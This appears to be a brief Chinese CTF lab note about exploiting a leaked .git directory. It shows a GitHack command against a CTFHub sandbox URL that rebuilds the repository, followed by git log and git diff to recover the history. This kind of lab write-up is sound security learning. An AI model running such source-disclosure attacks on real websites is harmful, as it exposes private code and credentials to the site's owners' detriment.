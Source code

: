 ```yaml
---
cover: https://w.wallhaven.cc/full/28/wallhaven-285929.jpg
created: 2024-11-27T22:18
date: 2024-11-12 13:12:51+00:00
lastmod: 2024-11-12 13:17:33+00:00
tag: web渗透
title: git泄露,log
updated: 2024-12-30T23:33
---
```




# git泄露,log

使用githack工具还原git库,git库里记录文件操作,可以查询信息

注意要使用python2 运行

```shell
python2 GitHack.py http://challenge-408f3b6ae078d0dc.sandbox.ctfhub.com:10800/.git/
```

​![image](assets/image-20241112131527-7l2nh1e.png)​

使用`git log`​显示信息

‍

​![image](assets/image-20241112131653-uwasz8c.png)​

使用`git diff <comment>`​查看操作信息

‍
